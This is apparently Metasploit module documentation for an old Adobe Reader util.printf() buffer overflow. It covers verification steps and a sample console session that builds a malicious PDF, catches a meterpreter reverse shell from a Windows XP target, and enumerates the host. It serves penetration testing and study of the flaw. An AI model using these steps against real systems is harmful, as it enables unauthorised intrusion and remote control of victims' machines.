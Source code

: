 ## Vulnerable Application

This module exploits a buffer overflow in Adobe Reader and Adobe Acrobat Professional < 8.1.3. By creating a specially
crafted pdf that a contains malformed `util.printf()` entry, an attacker may be able to execute arbitrary code.

Link to vulnerable software [OldVersion](http://www.oldversion.com/windows/download/acrobat-reader-8-0-0)

## Verification Steps

  1. Install application on the target machine
  2. Start msfconsole
  3. Do: ```use exploit/windows/fileformat/adobe_utilprintf```
  4. Do: ```set payload [windows/meterpreter/reverse_tcp]```
  5. Do: ```set LHOST [IP]```
  6. Do: ```exploit```
  7. Do: ```use exploit/multi/handler```
  8. Do: ```set LHOST [IP]```
  9. Do: ```exploit```
  10. Do: Open PDF on target machine with vulnerable software

## Scenarios

### Adobe Reader 8.0.0 on Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_utilprintf
  msf exploit(windows/fileformat/adobe_utilprintf) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
  msf exploit(windows/fileformat/adobe_utilprintf) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(windows/fileformat/adobe_utilprintf) > set FILENAME utilprintf.pdf
    FILENAME => utilprintf.pdf
  msf exploit(windows/fileformat/adobe_utilprintf) > exploit

    [*] Creating 'utilprintf.pdf' file...
    [+] utilprintf.pdf stored at /root/.msf4/local/utilprintf.pdf
  msf exploit(windows/fileformat/adobe_utilprintf) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(multi/handler) > exploit
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.5:1057) at 2019-12-09 13:47:07 -0700

  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
    meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

    Installed Applications
    ======================

    Name            Version
    ----            -------
    Adobe Reader 8  8.0.0


    [+] Results stored in: /root/.msf4/loot/20191209134901_default_192.168.1.5_host.application_066854.txt
    ```
